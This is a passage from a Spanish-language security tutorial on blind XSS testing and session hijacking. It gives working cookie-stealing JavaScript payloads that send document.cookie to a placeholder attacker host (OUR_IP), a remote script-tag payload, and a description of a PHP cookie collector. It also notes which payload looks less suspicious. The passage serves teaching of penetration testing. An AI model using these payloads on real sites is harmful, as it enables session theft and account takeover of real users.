 Consejo: Notaremos que el correo electrónico debe coincidir con un formato de correo electrónico, incluso si intentamos manipular los parámetros de la solicitud HTTP, ya que parece ser validado tanto en el front-end como en el back-end. Por lo tanto, el campo de correo electrónico no es vulnerable y podemos omitir probarlo. Del mismo modo, podemos omitir el campo de contraseña, ya que las contraseñas generalmente están hashadas y no suelen mostrarse en texto claro. Esto nos ayuda a reducir el número de campos de entrada potencialmente vulnerables que necesitamos probar.

Una vez que enviemos el formulario, esperamos unos segundos y verificamos nuestro terminal para ver si algo llamó a nuestro servidor. Si nada llama a nuestro servidor, podemos proceder al siguiente payload, y así sucesivamente. Una vez que recibamos una llamada a nuestro servidor, debemos anotar el último payload de XSS que usamos como un payload funcional y anotar el nombre del campo de entrada que llamó a nuestro servidor como el campo de entrada vulnerable.

`Intenta probar varios payloads de XSS remotos con los campos de entrada restantes y ve cuál de ellos envía una solicitud HTTP para encontrar un payload funcional`.

---

## Session Hijacking

Una vez que encontramos un payload de XSS funcional y hemos identificado el campo de entrada vulnerable, podemos proceder a la explotación de XSS y realizar un ataque de Session Hijacking.

Un ataque de session hijacking es muy similar al ataque de phishing que realizamos en la sección anterior. Requiere un payload de JavaScript para enviarnos los datos necesarios y un script PHP alojado en nuestro servidor para capturar y analizar los datos transmitidos.

Hay múltiples payloads de JavaScript que podemos usar para capturar la cookie de sesión y enviárnosla, como se muestra en [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Usar cualquiera de los dos payloads debería funcionar para enviarnos una cookie, pero usaremos el segundo, ya que simplemente agrega una imagen a la página, lo que puede no parecer muy malicioso, mientras que el primero navega a nuestra página de captura de cookies PHP, lo que puede parecer sospechoso.

Podemos escribir cualquiera de estos payloads de JavaScript en `script.js`, que también se alojará en nuestra VM:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Ahora, podemos cambiar la URL en el payload de XSS que encontramos anteriormente para usar `script.js` (`no olvides reemplazar OUR_IP con la IP de tu VM en el script JS y el payload de XSS`):

```html
<script src=http://OUR_IP/script.js></script>
```

Con nuestro servidor PHP en ejecución, ahora podemos usar el código como parte de nuestro payload de XSS, enviarlo en el campo de entrada vulnerable y deberíamos recibir una llamada a nuestro servidor con el valor de la cookie. Sin embargo, si hubiera muchas cookies, puede que no sepamos qué valor de cookie pertenece a qué encabezado de cookie. Así que podemos escribir un script PHP para dividirlas con una nueva línea y escribirlas en un archivo. De esta manera, incluso si múltiples víctimas activan el exploit de XSS, obtendremos todas sus cookies ordenadas en un archivo.

